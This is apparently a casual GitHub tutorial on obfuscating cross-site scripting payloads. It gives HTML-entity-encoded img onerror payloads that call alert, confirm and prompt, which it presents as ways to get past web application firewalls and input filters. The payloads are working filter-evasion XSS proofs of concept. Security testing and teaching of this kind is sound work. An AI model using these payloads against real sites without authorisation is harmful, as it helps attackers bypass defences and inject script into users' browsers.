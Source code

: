 # Intro
## What is Obfuscation
Obfuscation is the practice of intentionally making code or data more difficult to understand or read. thats it

# Whats the Point of obfuscating alert event
First we know what is alert to get to know what we are dealing with
In web development, `alert` is a function in JavaScript that is used to display a dialog box with a specified message and an OK button.
In your web application, let's say you have a login feature. After a user successfully signs in, you might want to provide a welcoming message to greet them. One simple way to achieve this is by using the `alert` function in JavaScript. For example:

```javascript
// Assuming the user successfully signed in
var username = "user123"; // Replace with the actual username
var welcomeMessage = "You have successfully signed in, welcome " + username + "!";
alert(welcomeMessage);
```
In this scenario, after a successful sign-in, the alert function is used to display a personalized welcome message, incorporating the user's username. The message might say something like "You have successfully signed in, welcome user123!".

Sorry for the long example (: but lets dig deep 

# Obfuscation 
using some sources i've found some interesting things like this 
```html
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```
Have you ever seen something like this before? Probably yes, but it becomes incredibly helpful when the alert function is blocked by a WAF or filtration mechs.

so i will provide some script as example if you want to use them, it will be prompt and alert and confirm functions.

# here
```<img src=x onerror=&#x63;&#x6F;&#x6E;&#x66;&#x69;&#x72;&#x6D;('XSS')>``` for confirm
```<img src=x onerror=&#x70;&#x72;&#x6F;&#x6D;&#x70;&#x74;('XSS')>``` for prompt
```<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;('XSS')>```and this is for alert


## Thanks for reading 
why did i write it? because i was bored at 4 AM
